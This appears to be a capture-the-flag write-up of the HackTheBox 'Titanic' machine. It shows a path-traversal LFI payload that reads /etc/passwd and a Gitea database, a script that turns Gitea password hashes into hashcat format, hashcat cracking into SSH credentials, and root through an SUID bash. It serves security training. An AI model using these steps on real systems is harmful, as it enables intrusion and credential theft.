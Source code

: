 ```yaml
---
title: Titanic
tags:
  - HackTheBox
  - Easy
  - Linux
  - Gitea
  - LFI
  - Brute-Forcing
  - SUID
date: 2025-02-16T00:00:00Z
---
```

![](Pasted%20image%2020250216211039.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.55 titanic.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- titanic.htb > sC.txt

[redacted]
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http
|_http-title: Titanic - Book Your Ship Trip
```

So I checked its website:

![](Pasted%20image%2020250216211203.png)

I discovered a library running with a curl request:

```shell
curl -I http://titanic.htb        

HTTP/1.1 200 OK
Date: Sun, 16 Feb 2025 20:14:12 GMT
Server: Werkzeug/3.0.3 Python/3.10.12
Content-Type: text/html; charset=utf-8
Content-Length: 7399
```

So **Werkzeug 3.0.3** is running.

I performed some vhost enumeration with [Ffuf 🐳](/notes/tools/Ffuf.md) and got:

```shell
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt:FUZZ -u http://titanic.htb/ -H 'Host: FUZZ.titanic.htb' -fc 301

[redacted]
dev  [Status: 200, Size: 13982, Words: 1107, Lines: 276, Duration: 177ms]
```

So I added the new domain to my known ones and checked it:

![](Pasted%20image%2020250216212500.png)

Gitea version 1.22.1 is found inside it. 

I registered an account:

![](Pasted%20image%2020250216212628.png)

Exploring existing repos I found the following ones:

![](Pasted%20image%2020250216212719.png)

Inside `docker-config/mysql/docker-compose.yml` I found some root credentials:

```shell
root:MySQLP@$$w0rd!
```

![](Pasted%20image%2020250216212856.png)

Then, inside `flask-app/app.py` I found the source code of the machine front-end:

![](Pasted%20image%2020250216213115.png)

Basically, you need to add a ticket parameter to the download url, so I'll try it with the previous one I generated:

![](Pasted%20image%2020250216213403.png)

Got nothing, but I'll try some LFI:

```shell
http://titanic.htb/download?ticket=../../../../etc/passwd

[redacted]
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

> So I can try to read user flag :D

### User flag

```shell
http://titanic.htb/download?ticket=../../../../home/developer/user.txt
```

![](Pasted%20image%2020250216213806.png)

Then I remembered that I got the source code, so I inspected for the tickets:

![](Pasted%20image%2020250216213908.png)

and tried to read them, but got nothing :3

So I went back to gitea and checked `docker-config/gitea/docker-compose.yml`:

![](Pasted%20image%2020250216214607.png)

So maybe the gitea database is accessible under `/home/developer/gitea/data/`. Searching over the internet and their official documentation, I figured out that may be located in `/home/developer/gitea/data/gitea/gitea.db`.

> It worked!

## Weaponization

I searched "how to crack gitea.db" and found this [Gitea Cracking Gist](https://gist.github.com/h4rithd/0c5da36a0274904cafb84871cf14e271)

```python
import sqlite3
import base64
import sys

if len(sys.argv) != 2:
    print("Usage: python3 gitea3hashcat.py <gitea.db>")
    sys.exit(1)

try:
    con = sqlite3.connect(sys.argv[1])
    cursor = con.cursor()
    cursor.execute("SELECT name,passwd_hash_algo,salt,passwd FROM user")
    for row in cursor.fetchall():
        if "pbkdf2" in row[1]:
            algo, iterations, keylen = row[1].split("$")
            algo = "sha256"
            name = row[0]
        else:
            raise Exception("Unknown Algorithm")
        salt = bytes.fromhex(row[2])
        passwd = bytes.fromhex(row[3])
        salt_b64 = base64.b64encode(salt).decode("utf-8")
        passwd_b64 = base64.b64encode(passwd).decode("utf-8")
        print(f"{name}:{algo}:{iterations}:{salt_b64}:{passwd_b64}")
except Exception as e:
    print(f"Error: {e}")
    sys.exit(1)

## The script was taken from an ippsec's video.
```

## Exploitation

![](Pasted%20image%2020250216215457.png)

```shell
administrator:sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
hacker:sha256:50000:sBzfUKqer4N0fKS8eODPQw==:7tkcfGpKC6WxGbaKhcM2HoWEW2PoPJmHeYABJB7PfKwFVH1IgTTIWzNw/ZBTdY5a6vU=
test:sha256:50000:RPytKt3VovGAlR7YPFTkuw==:jU2xae8PWXpZ85cy3CncuqTezE4CcYPHunZKv9VRDpWTXFSFxU3Jhk4x5USHfnszyvM=
gitblanc:sha256:50000:rJaBvuFohNvaam/PHwzE/Q==:l8i0l94d6I9CZo7z1Y2vqOd6zlPcV8BmCQOC4OjLSMn+s38zVXK1DcHrIeADrOTFSMo=
```

So I checked the [Official hashcat page](https://hashcat.net/wiki/doku.php?id=example_hashes) to check the hash format and crack this one:

```shell
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

```shell
hashcat -m 10900 -o cracked.txt hashes.txt /usr/share/wordlists/rockyou.txt

[redacted]
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
```

> Got ssh creds: `developer:25282528` :D

## Privilege Escalation

I searched for SUID binaries:

```shell
find / -perm -4000 2>/dev/null

[redacted]
/usr/bin/bash
```

So I searched in [GTFOBins](https://gtfobins.github.io/gtfobins/bash/#suid):

```shell
/usr/bin/bash -p
```

![](Pasted%20image%2020250216221933.png)

### Root flag

![](Pasted%20image%2020250216222100.png)

==Machine pwned!==